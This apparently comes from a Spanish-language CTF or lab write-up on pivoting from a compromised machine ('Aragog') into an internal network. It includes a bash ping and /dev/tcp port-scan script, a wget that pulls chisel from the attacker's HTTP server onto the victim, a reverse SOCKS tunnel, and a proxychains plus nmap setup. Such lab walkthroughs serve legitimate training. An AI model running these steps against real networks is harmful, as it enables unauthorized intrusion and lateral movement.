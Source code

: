 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `https://github.com/jpillora/chisel`para crear un túnel de tipo socks para llegar a los puertos que hay en los puertos de la red interna que desde nuestra maquina atacante no llegamos a ver.

Lo descargamos y lo descomprimimos y le damos permisos de ejecución.
Lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Y en la maquina victima:
`wget http://192.168.1.19/chisel`

Ejecutamos chisel en la maquina atacante como servidor para que las maquinas se conecten a el
`./chisel server --reverse -p 1234`

Ahora en la maquina victima lo ejecutamos como cliente en la maquina victima:
`./chisel client 192.168.1.19:1234 R:1080:socks`

Lo que estamos haciendo con el parámetro `R:1080:socks` es abrirte el puerto `1080` haciéndote un túnel directo a la maquina `10.10.0.5`


En la maquina atacante abrimos el archivo ` /etc/proxychains4.conf` y modificamos:
`dynamic_chain` comentado
`stric_chain` descomentado
Y al final del documento añadimos `socks5 127.0.0.1 1080`

Ahora cuando queramos hacer una enumeración de puertos de la maquina victima [[10.10.0.5(Nagini)]] deberemos usar `nmap -sT -Pn -p- -open -T5 -v -n 10.10.0.5 2>/dev/null`

Si queremos que sea mas rápido utilizaremos secuenciadores y xargs para paralelizar comandos:





